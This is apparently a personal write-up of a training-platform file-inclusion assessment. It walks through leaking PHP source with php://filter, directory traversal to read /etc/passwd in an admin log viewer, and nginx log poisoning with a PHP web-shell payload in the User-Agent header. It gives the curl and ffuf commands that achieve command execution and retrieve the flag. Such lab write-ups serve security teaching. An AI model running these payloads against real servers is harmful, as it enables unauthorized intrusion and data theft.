






## File Inclusion – Skills Assessment Write-up


### Objective

The objective of this assessment was to identify and exploit Local File Inclusion (LFI) vulnerabilities within the target web application, gain arbitrary code execution, and ultimately retrieve the flag.


### Reconnaissance

I began by browsing the target web application through the provided IP address and port.  

While navigating between different sections (e.g., *About*, *Contact*), I observed that the application generated **GET requests containing a `page` parameter**, which appeared to load different content dynamically:  

 - `http://<IP>:<PORT>/index.php?page=about`

 - `http://<IP>:<PORT>/index.php?page=contact`

This indicated that the parameter was responsible for including corresponding files on the server.

To test for potential Local File Inclusion (LFI), I attempted to manipulate the parameter by replacing its value with system files: `http://<IP>:<PORT>/index.php?page=/etc/passwd`.

I noticed:

- When I directly requested `/etc/passwd`, the application returned no visible output.  
  It can be assumed that the `include` function was executed, however, due to the application automatically appending `.php` and/or restricting the search to a predefined directory, the file could not be located and therefore no output was returned.

- When I attempted directory traversal (e.g., `../../../../etc/passwd`), the request was most likely intercepted by the application’s filter for `..` sequences, which resulted in the error message:  
  **Invalid input detected!**


### Source Code Disclosure via PHP Filters

Testing the inclusion mechanism with PHP wrappers revealed that the application was vulnerable to `php://filter` usage.  

Example request: `http://<IP>:<PORT>/index.php?page=php://filter/read=convert.base64-encode/resource=index`.



I specifically targeted the `index.php` file, since it serves as the core of the application, while the other pages (e.g., `about`, `contact`) are loaded dynamically through the page parameter. This could suggest that the restrictions on LFI exploitation (such as automatic `.php` appending and filtering for `..`) are most probably implemented directly in `index.php`, rather than globally across the application.

The response contained Base64-encoded output, which was also URL-encoded. After decoding the URL encoding first, and then applying Base64 decoding in **Burp Suite**, I successfully recovered the source code of `index.php`.



Relevant code snippet:

```php
if(!isset($_GET['page'])) {
    include "main.php";
}
else {
    $page = $_GET['page'];
    if (strpos($page, "..") !== false) {
        include "error.php";
    }
    else {
        include $page . ".php";
    }
}
```

Key observations:
 - Directory traversal using `..` was blocked.
 - A `.php` extension was automatically appended to included files.

Moreover, within the `index.php`, a commented-out reference pointed to an alternative path:

```php
	// echo '<li <a href="ilf_admin/index.php" Admin</a </li>';
```

This hinted at the presence of an admin panel under `/ilf_admin/`.


### Exploiting LFI in ilf_admin

Navigating to `ilf_admin/index.php` revealed a log viewer feature using the log parameter.

Example payload testing with the SecLists LFI wordlist to identify potential file inclusion vectors:

```bash
ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://<IP>:<PORT>/ilf_admin/index.php?log=FUZZ' -fs <baseline_response_size>
```

Among the tested payloads, one that proved successful was `http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../etc/passwd`.



This confirmed an exploitable LFI vulnerability without the directory traversal restrictions seen in the main page.


### Log File Poisoning to RCE

To escalate from LFI to Remote Code Execution (RCE), I attempted server log poisoning.

#### Step 1 – Identify Server

Using `curl -I`, the server was identified:

```bash
Server: nginx/1.18.0
X-Powered-By: PHP/7.3.22
```

By default, Nginx logs are located in `/var/log/nginx/`. To confirm this, I attempted to include the **Nginx access log** using the vulnerable `log` parameter:

```bash
http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log
```

The request successfully returned the contents of the log file, as shown below:



#### Step 2 – Inject Malicious Payload

I injected a PHP payload into the User-Agent header:

```bash
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison

curl -s "http://<IP>:<PORT>/ilf_admin/index.php" -H @Poison
```

#### Step 3 – Execute Commands

I then leveraged the LFI vulnerability to load the Nginx access log file, which had been previously poisoned with a PHP payload. To verify successful code execution, I appended `&cmd=id` to the request, which returned the server’s user information, confirming the exploit:

```bash
curl -s http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=id | grep uid
```

Response:

```bash
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

This confirmed remote command execution.


### Flag Retrieval

Using the established web shell, I listed the root directory (`ls /` command) and identified flag file:

```
http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=ls%20%2F
```



Finally, I retrieved the flag `<flag.txt>`:

```
http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=cat%20%2F<flag.txt>
```




## Conclusion

The `page` and `log` parameters were vulnerable to Local File Inclusion (LFI). By leveraging this issue, I successfully escalated it into Remote Code Execution (RCE) through server log poisoning, which ultimately allowed me to retrieve the assessment flag.

This confirms the presence of a critical file inclusion vulnerability that could enable attackers to read sensitive files, execute arbitrary system commands, and fully compromise the server.


### Key Takeaways

- `php://filter` wrapper enabled source code disclosure of `index.php`  
- Directory traversal was restricted in the main page, but bypassed in the **ilf_admin** panel  
- LFI in log viewer allowed direct access to system files (`/etc/passwd`)  
- Log poisoning enabled execution of arbitrary PHP commands via the User-Agent header  
- Successful command execution led to retrieval of the flag file from the server root
